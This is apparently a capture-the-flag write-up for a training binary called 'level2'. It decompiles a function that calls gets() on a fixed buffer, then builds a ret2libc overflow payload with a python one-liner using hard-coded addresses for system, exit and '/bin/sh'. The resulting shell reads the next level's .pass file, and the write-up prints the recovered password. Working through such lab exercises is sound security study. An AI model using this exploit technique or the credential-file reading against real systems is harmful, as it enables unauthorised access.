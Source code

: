 get the binary on host
* `scp -P 4242 level2@192.168.56.107:./level2 ./binary/level2`

decompile using ghidra

we can use a buffer overflow to run a sh, but we can't pass hexa starting at \xbZ (no Z is valide)
```c
	void p(void)
	{
		uint unaff_retaddr;
		undefined local_50 [76];
		
		fflush(stdout);
		gets(local_50)
		if ((unaff_retaddr & 0xb0000000) == 0xb0000000) {
			printf("(%p)\n",unaff_retaddr);
							/* WARNING: Subroutine does not return */
			_exit(1);
		}
		puts(local_50);
		strdup(local_50);
		return;
	}
```
To bypass the check, we will add the address of return of function before our payload
* `/bin/sh`	=> 0xb7 f8 cc 58
* `system`	=> 0xb7 e6 b0 60
* `exit`    =>  0xb7 e5 eb e0
* `p ret`   => 0x08 04 85 3e

Using our 80 char array + thoose address we can lauch a new shell.\
This array is `80 char` + `p ret` + `addr system` + `addr exit` + `addr "/bin/sh"`\
`python -c 'print "a"* 80 + "\x3e\x85\x04\x08" + "\x60\xb0\xe6\xb7" + "\xe0\xeb\xe5\xb7" + "\x58\xcc\xf8\xb7"' > /tmp/exploit_2; cat /tmp/exploit_2 - | ./level2`\
We can input our cat
* `cat /home/user/level3/.pass`
* and get the pass `492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02`